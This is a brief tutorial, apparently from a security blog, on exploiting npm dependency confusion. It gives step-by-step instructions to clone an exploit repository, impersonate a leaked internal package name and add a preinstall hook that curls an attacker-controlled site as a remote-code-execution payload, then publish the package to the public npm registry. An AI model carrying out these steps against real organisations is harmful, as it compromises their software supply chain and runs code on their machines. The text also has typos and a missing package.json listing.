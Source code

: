 https://0xsapra.github.io/website//Exploiting-Dependency-Confusion

git clone https://github.com/0xsapra/dependency-confusion-expoit
cd dependency-confusion-expoit
Edit package.json following fields
Change module name from "name": "your-module-name", to "name": "xss-finder-0xsapra",.
Change Version from "version": "1.0.0", to "version": "1.0.0",
Th leaked package.json shows xss-finder-0xsapra is at version 1.0.0 so we use that same version
Change preinstall script from "preinstall": "curl http://yoursite.co.m" to "preinstall": "curl http://yoursite.com"
preinstall is the bash command that gets executed. Put your RCE payload here After Editing, the package.json should look like:
After editing package.json, next step is to upload this package to npm. To do this you can follow the steps from https://zellwk.com/blog/publish-to-npm/ . Here’s the same steps:
Login/Signup into npm from https://www.npmjs.com/signup
Open terminal/bash and login into npm public registry from terminal using npm login command
Run npm publish . in terminal and it will publish xss-finder-0xsapra to npm
You can now find the package uploaded on https://npmjs.com
